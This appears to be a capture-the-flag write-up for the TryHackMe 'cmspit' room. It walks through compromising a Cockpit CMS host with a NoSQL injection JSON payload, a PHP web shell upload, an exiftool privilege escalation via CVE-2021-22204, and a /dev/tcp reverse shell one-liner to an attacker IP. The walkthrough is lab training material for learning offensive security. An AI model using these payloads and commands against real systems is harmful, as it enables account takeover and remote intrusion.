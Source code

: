 Room: https://tryhackme.com/room/cmspit

# RECONNAISSANCE

After we deployed the VM, we start with an NMAP and check the machine. Do a dirb search if it has a http port opened.  
```sudo nmap -v -sV -sC -Pn -T4 -p- -oG nmap.log 10.10.24.213```  
NMAP output:  
![image](https://user-images.githubusercontent.com/71237545/128411161-73299f6f-d68a-4308-81eb-f1d0d49fd926.png)  

From this we can check the port 80.  
Image from the port 80:  
![image](https://user-images.githubusercontent.com/71237545/128411192-81ec7504-828e-446a-b296-cbcb814b8363.png)  

After checking the source code I found the method to /auth/check and we execute dirb to this url.  
	```<form class="uk-form" method="post" action="/auth/check" onsubmit="{ submit }">```  
Dirb command:  
``` dirb http://10.10.24.213/auth/check/ /usr/share/wordlists/dirb/big.txt -f ```  
Dirb output:  
![image](https://user-images.githubusercontent.com/71237545/128411233-b7666e8e-d5c5-4572-8a32-f33e5c8dd83e.png)  

At this point we can answer the first 3 questions.  
After some research for the CMS cockpit with that version I found the following link.  
	https://swarm.ptsecurity.com/rce-cockpit-cms/  

From here, we open BurpSuite to analyze what we can find.  
From the site we take the following fuction to add to the request from our BurpSuite to check the answers.  

```{
"auth":{
	"user":{
		"$func":"var_dump"
		},
	"password":[
		0
		]
	},
"csfr":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJjc2ZyIjoibG9naW4ifQ.dlnu8XjKIvB6mGfBlOgjtnixirAIsnzf5QTAEP1mJJc"} 
```
The output we get from this is the answer of the 4th question and reading through the site on the link we can answer the 5th one.  
With this we start playing around with the path of /auth/resetpassword and /auth/newpassword  
From here we can get the tokens when we use a dump on /resetpassword.  
With this token we can find the user information on /newpassword.  
With this information we can update and change the password of the user, having the reset token on /newpassword.  
And with this we are inside the CMS.  
![image](https://user-images.githubusercontent.com/71237545/128411370-a7e1400b-f592-473f-a320-cc433eeaef49.png)  

Navigating through the site we can find the Web flag.  
After this we have to upload and compromise the machine to get remote access or RCE.  

# Getting the reverse Shell  

After we create a php file with a simple shell we can execute commands on our machine.  

![image](https://user-images.githubusercontent.com/71237545/128411415-49919357-1ae4-4b23-899d-a0c0a6ef5581.png)

We make a reverse shell to upload and have our backdoor to the machine.  

Once we got in, we start checking thought the system and I I found the user.txt flag under /home/stux/  
Checking the files there and also checking the log from mongodb (/var/log/mongodb/mongodb.log) y can get the password of Stux  

With this we can get the Ssh password. And the db flag.  
Once we got this we can get in via SSH with the Stux account.  

![image](https://user-images.githubusercontent.com/71237545/128411453-e44ec792-d5a9-4102-b9b8-62cf2b924893.png)

# ESCALATION  

Here we can get the content of user.txt  
Now that we have the credentials of Stux, we can check any vulnerability to use on the system to escalate privileges. For this we will use Linpeas.  

With this and with sudo -l we can see the chance to use sudo on /usr/local/bin/exiftool  
With this, doing some research I foung the following CVE to use  
https://nvd.nist.gov/vuln/detail/CVE-2021-22204  
And this github to exploit  
https://github.com/bilkoh/POC-CVE-2021-22204  

Using this tool we create a jpg file and then include our payload there.

To use this I add the /bin/bash command on the payload.  
``` Perl image.perl "/bin/bash" ```  
Once this command is executed, a new file caleld notevil.jpg will appear. And now is time to use the sudo command.  
``` sudo /usr/local/bin/exiftool notevil.jpg ```  
If everything goes as it should, a bash shell will come up with the root user. After this is possible to execute either a remote shell or look for the last flag.  
I went for the reverse shell with just a basic reverse shell command.  
Let my port 8085 open with the next command  
	``` nc -lnvp 8085 ```  
And execute the following command on the machine:  
	``` sh-i >& /dev/tcp/10.6.36.7/80850>&1 ```  
With this we have root.  

![image](https://user-images.githubusercontent.com/71237545/128411500-b5cf2084-d6b3-4a67-81e6-ca6909fb572e.png)

And we can print the last flag.  

![image](https://user-images.githubusercontent.com/71237545/128411517-4fc61a75-bd2c-42e7-bd8f-01dedeeb9c88.png)
